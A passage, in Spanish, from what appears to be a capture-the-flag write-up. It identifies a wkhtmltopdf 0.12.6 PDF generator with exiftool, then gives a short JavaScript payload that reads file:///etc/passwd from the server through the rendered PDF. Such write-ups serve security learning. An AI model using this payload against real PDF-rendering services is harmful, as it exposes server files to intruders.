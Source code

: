 Descargamos el PDF con la lista de usuarios y lo analizamos.

![alt text](../../../assets/images/token-of-hate/image-9.png)

Con `exiftool` vemos que está generado con `wkhtmltopdf 0.12.6`, una herramienta muy usada para convertir `HTML` a `PDF`.

Editamos el archivo `script.js` de nuestro servidor web en Python para intentar leer datos del propio servidor.

```javascript
x=new XMLHttpRequest;
x.onload=function(){
  document.write("<pre>"+this.responseText+"</pre>");
};
x.open("GET","file:///etc/passwd");
x.send();
```

Descargamos el PDF y obtenemos el contenido de `/etc/passwd`.
